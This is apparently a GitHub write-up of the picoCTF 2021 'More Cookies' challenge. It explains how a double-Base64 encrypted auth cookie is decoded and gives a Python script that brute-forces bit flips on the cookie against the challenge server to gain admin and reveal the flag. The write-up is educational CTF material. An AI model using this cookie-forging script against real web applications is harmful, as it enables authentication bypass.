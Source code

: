 # More Cookies

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 90
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! 

http://mercury.picoctf.net:15614/

Hints:
1. https://en.wikipedia.org/wiki/Homomorphic_encryption
2. The search endpoint is only helpful for telling you if you are admin or not, you won't be able to guess the flag name
```

## Solution

Browse to the web site with your browser (I used Google Chrome).   
Press F12 to open DevTools and go to the `Application` tab.  
Under `Storage` and then `Cookies` select the web site.  
There is a cookie named `auth_name` with a value that looks like Base64-encoded data.

### Analyse the cookie

Lets decode it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d
3FOkeVgV5m1nsFIXcA+hTMMBrkzTIXj0Rr0m/5O9JSZW7wmvUBvYcDb0Zu5hOi2XOXP06q+ZYPVw1OWmZ5dgG9jxpsOIvLhpIIfAuW03mrjLQUilw+eLeYDjbUwpoDFc
```

Looks like Base64 again.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d | base64 -d
�S�yX�mg�Rp�L��L�!x�F�&���%&V�  �Pp6�f�a:-�9s�ꯙ`�p���g�`��È��i ���m7���AH����y��mL)�1\

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d | xxd -g 1   
00000000: 33 46 4f 6b 65 56 67 56 35 6d 31 6e 73 46 49 58  3FOkeVgV5m1nsFIX
00000010: 63 41 2b 68 54 4d 4d 42 72 6b 7a 54 49 58 6a 30  cA+hTMMBrkzTIXj0
00000020: 52 72 30 6d 2f 35 4f 39 4a 53 5a 57 37 77 6d 76  Rr0m/5O9JSZW7wmv
00000030: 55 42 76 59 63 44 62 30 5a 75 35 68 4f 69 32 58  UBvYcDb0Zu5hOi2X
00000040: 4f 58 50 30 36 71 2b 5a 59 50 56 77 31 4f 57 6d  OXP06q+ZYPVw1OWm
00000050: 5a 35 64 67 47 39 6a 78 70 73 4f 49 76 4c 68 70  Z5dgG9jxpsOIvLhp
00000060: 49 49 66 41 75 57 30 33 6d 72 6a 4c 51 55 69 6c  IIfAuW03mrjLQUil
00000070: 77 2b 65 4c 65 59 44 6a 62 55 77 70 6f 44 46 63  w+eLeYDjbUwpoDFc
```

Since the encryption is [Homomorphic](https://en.wikipedia.org/wiki/Homomorphic_encryption), changes made to the encrypted form will also affect the decrypted form.  
We can exploit this with a [Bit-flipping attack](https://en.wikipedia.org/wiki/Bit-flipping_attack).

### Write a brute forde solver

Lets write a brute force solver script that bit-flips each bit for each byte in the cookie
```python
#!/usr/bin/python

import requests
from base64 import b64decode, b64encode
import re

URL = 'http://mercury.picoctf.net:15614/'
COOKIE = "auth_name"
FLAG_FORMAT = r'picoCTF{[^}]+}'

# Get the cookie
s = requests.Session()
r = s.get(URL)
cookie = s.cookies[COOKIE]
raw_cookie = bytearray(b64decode(b64decode(cookie)))

# Brute force bit-flipping
flag_found = False
for index in range(len(raw_cookie)):
    for i in range(8):
        mask = 1 << i
        #print(f"Bit-flipping index {index} with mask {hex(mask)}")
        raw_cookie[index] ^= mask
        
        flipped_cookie = b64encode(b64encode(raw_cookie)).decode("ascii")
        r = requests.get(URL, cookies = {COOKIE: flipped_cookie})
        match = re.search(FLAG_FORMAT, r.text)
        if match:
            flag_found = True
            print(f"Bit-flipped index {index} with mask {hex(mask)}")
            print(f"Flag: {match.group(0)}")
            break
        raw_cookie[index] ^= mask
    if flag_found:
        break
```

### Get the flag

Then we make sure the script is executable and run it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ chmod +x get_flag.py 

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ ./get_flag.py
Bit-flipped index 9 with mask 0x1
Flag: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
- [Wikipedia - Homomorphic encryption](https://en.wikipedia.org/wiki/Homomorphic_encryption)
- [Wikipedia - Bit-flipping attack](https://en.wikipedia.org/wiki/Bit-flipping_attack)
